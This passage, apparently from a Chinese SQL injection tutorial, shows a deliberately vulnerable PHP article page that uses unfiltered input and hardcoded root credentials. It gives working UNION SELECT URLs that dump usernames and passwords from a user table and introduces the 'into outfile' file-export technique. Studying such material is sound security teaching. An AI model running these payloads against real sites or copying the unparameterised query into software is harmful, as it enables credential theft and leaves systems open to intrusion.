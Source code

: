```
<?php
$servername = 'localhost';
$dbusername = 'root';
$dbpassword = 'password';
$dbname = 'injection';

mysql_connect($servername,$dbusername,$dbpassword) or die ("connection failed");

$sql = "SELECT * FROM article WHERE articleid='$id'";
$result = mysql_db_query($dbname,$sql);
$row = mysql_fetch_array($result);
if(!$row)
{
	echo 'no record';
	echo "<p>SQL query:$SQL</p>";
	exit;
}
echo "title<br>".$row[title]."<p>\n";
echo "content<br>".$row[content]."<p>\n"
echo "<p>SQL query:$sql<p>";
?>
```

正常情况下，提交这样一个请求：
```
http://localhost/injection/show.php?id=1
```

就会显示article为1的文章，但需要的是用户的敏感信息，就要查询user表，现在是查询user表。
由于$id没有过滤，只要把show.php文件中的语句改写成类似这个样子:
```
SELECT * FROM article WHERE articleid='$id' UNION SELECT * FROM user
```

由于这个代码是有单引号包含着变量的:
```
http://localhost/injection/show.php?id=1' union select 1,username,password from user--+
```

由于提交的articleid=1是article表里存在的，执行结果就是真，自然返回前面SELECT结果，当提交空值或者提交一个不存在的值，就会得到想要的东西:

```
http://localhost/injection/show.php?id=' union select 1,username,password from user--+
http://localhost/injection/show.php?id=9999' union select 1,username,password from user--+
```

三.导出文件

这个是比较容易构造但又有一定限制的技术。

```
select * from table into outfile '/var/www/upload/out.txt'
select * from table into outfile '/var/www/file.txt'
```

但这样的语句，一般很少用在程序里，所以我们需要自己构造，但必须有以下的前提:
+ 必须导出到能访问的目录，这样才能下载
